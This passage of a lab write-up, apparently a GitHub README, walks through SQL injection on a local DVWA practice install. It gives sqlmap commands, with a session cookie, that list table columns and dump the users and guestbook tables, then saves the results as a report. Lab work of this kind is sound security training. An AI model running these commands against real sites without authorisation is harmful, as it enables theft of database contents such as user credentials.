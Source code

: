 ![Picture20](https://github.com/user-attachments/assets/f3dabddf-86e1-48a7-ba8c-7c7593fa360e)

# RETRIEVING ATTRIBUTES FROM THE TARGET TABLE USERS

python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=5&Submit=Submit#" --cookie="PHPSESSID=4ts7s0q1n1lecbb56jgsjsujpp; security=low" -D dvwa -T users --columns

![Picture21](https://github.com/user-attachments/assets/4fe21e1e-788a-4de7-9eab-b7e3306f4737)

# RETRIEVING ATTRIBUTES FROM GUESTBOOK TABLE

python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=5&Submit=Submit#" --cookie="PHPSESSID=4ts7s0q1n1lecbb56jgsjsujpp; security=low" -D dvwa -T guestbook --columns

![Picture22](https://github.com/user-attachments/assets/9556f688-fcf6-4747-8d2c-980f18fd2ce7)

# RETRIEVING ALL DETAILS ABOUT TABLE USERS

python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=5&Submit=Submit#" --cookie="PHPSESSID=4ts7s0q1n1lecbb56jgsjsujpp; security=low" -D dvwa -T users --dump

![Picture23](https://github.com/user-attachments/assets/c43e0081-b9bf-4a2f-927b-155fa3e81b19)

# RETRIEVING ALL DETAILS ABOUT TABLE GUESTBOOK

python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=5&Submit=Submit#" --cookie="PHPSESSID=4ts7s0q1n1lecbb56jgsjsujpp; security=low" -D dvwa -T guestbook --dump


![Picture24](https://github.com/user-attachments/assets/079d07ab-3d96-4988-bf12-060fa302e189)


# REPORT:

 Out of all the SQLMap operations, a report can be created for either an attacker gathering information for malicious purposes about a particular web applications or security administrators to improve their security protocols.

 ![Picture25](https://github.com/user-attachments/assets/86ada69d-f3be-40cd-b513-32924b55de6e)

 The summarized data of all the operations were summarized and stored under /host/trishad/.local/share/sqlmap/output/localhost . So to access the files we had to navigate to the directory to get the data summarized in text, so as to create a report and save it in a pdf form.

 ![Picture26](https://github.com/user-attachments/assets/f3efc3d0-8655-4026-8d05-e844e929819a)

# SQL INJECTION ATTACK ON THE DVWA: 
